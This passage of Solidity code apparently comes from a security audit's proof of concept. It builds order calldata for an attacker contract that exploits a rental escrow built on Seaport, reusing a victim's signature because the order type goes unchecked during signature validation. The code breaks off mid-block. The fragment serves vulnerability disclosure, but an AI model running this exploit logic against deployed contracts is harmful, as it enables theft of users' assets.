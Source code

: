 ```solidity
        // precompute `validate()` calldata for new order (PAYEE order) for on-chain validation (attackerContract is offerer and fulfiller)
        { // to fix stack too deep errors
            ConsiderationItem[] memory considerationItems = new ConsiderationItem[](2);
            // considerationItems[0] will change dynamically in our attacker contract
            considerationItems[1] = ConsiderationItem({
                itemType: ItemType.ERC20,
                token: address(erc20s[0]),
                identifierOrCriteria: uint256(0),
                startAmount: uint256(1),
                endAmount: uint256(1),
                recipient: payable(address(ESCRW))
            });

            order.parameters.consideration = considerationItems; // considerationItems for PAYEE mirror offerItems from PAY

            OfferItem[] memory offerItems = new OfferItem[](0);
            order.parameters.offer = offerItems; // no offerItems for PAYEE

            order.parameters.totalOriginalConsiderationItems = 2; // 2 since this is our PAYEE order

            // store `validate()` calldata for PAYEE order in attackerContract for later use
            attackerContract.storePayeeOrder(order);
        }

        // precompute `matchAdvancedOrders()` calldata for fulfillment of the two orders (PAY + PAYEE) and store in attackerContract
        // construct AdvancedOrder[] calldata
        { // to fix stack too deep errors
            rentPayload.metadata.orderType = OrderType.PAY; // modify OrderType to be a PAY order (necessary for exploit). orderType not checked during signature validation
            AdvancedOrder memory payAdvancedOrder = AdvancedOrder(
                attackerContract.getPayOrderParams(), 
                1, 
                1, 
                hex"",  // signature does not matter 
                abi.encode(rentPayload, signature) // extraData. Note: we are re-using the signature we received from alice's metadata
            );
            rentPayload.metadata.orderType = OrderType.PAYEE; // modify OrderType to be a PAYEE order (necessary for exploit). orderType not checked during signature validation
            AdvancedOrder memory payeeAdvancedOrder = AdvancedOrder(
                attackerContract.getPayeeOrderParams(), 
                1, 
                1, 
                hex"",  // signature does not matter 
                abi.encode(rentPayload, signature) // extraData. Note: we are re-using the signature we received from alice's metadata
            );
            
            // store AdvancedOrder structs in attackerContract for later use
            attackerContract.storePayAdvancedOrder(payAdvancedOrder);
            attackerContract.storePayeeAdvancedOrder(payeeAdvancedOrder);
        }

        // construct Fulfillment[] calldata
        { // to fix stack too deep errors
            FulfillmentComponent[] memory offerCompERC721 = new FulfillmentComponent[](1);
            FulfillmentComponent[] memory considCompERC721 = new FulfillmentComponent[](1);

            offerCompERC721[0] = FulfillmentComponent({orderIndex: 0, itemIndex: 0});
```